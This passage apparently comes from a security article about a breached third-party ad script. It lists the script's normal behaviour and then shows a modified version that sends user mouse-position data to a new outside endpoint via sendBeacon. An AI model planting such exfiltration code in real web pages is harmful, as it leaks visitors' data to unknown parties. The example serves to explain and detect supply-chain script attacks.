 <table>
   <thead>
      <tr>
         <th>Operator</th>
         <th>Action</th>
         <th>Target</th>
      </tr>
   </thead>
   <tbody>
      <tr>
         <td>ad_tracker.js</td>
         <td>Set cookie</td>
         <td>“lastpos” cookie</td>
      </tr>
      <tr>
         <td>ad_tracker.js</td>
         <td>DOM Element Lookup</td>
         <td>DIV#ad</td>
      </tr>
      <tr>
         <td>ad_tracker.js</td>
         <td>Network XHR</td>
         <td>ht<span>tps://events-server.com/api</td>
      </tr>
   </tbody>
</table>

Now at this stage, the script got breached, and with the content change, the script behavior changed as well.
The script still performs most of the actions performed before, only now, new actions have also been added. These actions are taking the sensitive data collected by the original script, and sending it to a new endpoint to be saved by an unfamiliar browser storage entity.

_New ad_tracker.js version content_

```javascript
let EVENTS = [];
const TARGET_SERVER = "https://events-server.com/api";
const TARGET_SERVER1 = "https://users-server.com/api";
document.getElementById("ad").addEventListener("mousemove", function(event) {
  const lastPos = `${event.clientY},${event.clientX}`;
  EVENTS.push(lastPos);
  document.cookie = `lastpos_cookie=${lastPos}`;
  localStorage.setItem("lastpos", `${lastPos}`); // User’s data is saved to a new storage entity
  if (EVENTS.length > 10) {
    flashEvents();
  }
});

function flashEvents() {
  let xhr = new XMLHttpRequest();
  xhr.open("POST", TARGET_SERVER);
  xhr.send(JSON.stringify(EVENTS));
  EVENTS = [];

  if (navigator.sendBeacon) {
    const data = "events=" + JSON.stringify(EVENTS);
    navigator.sendBeacon(TARGET_SERVER1, data); // User’s data is sent to a new HTTP endpoint
  }
}
```
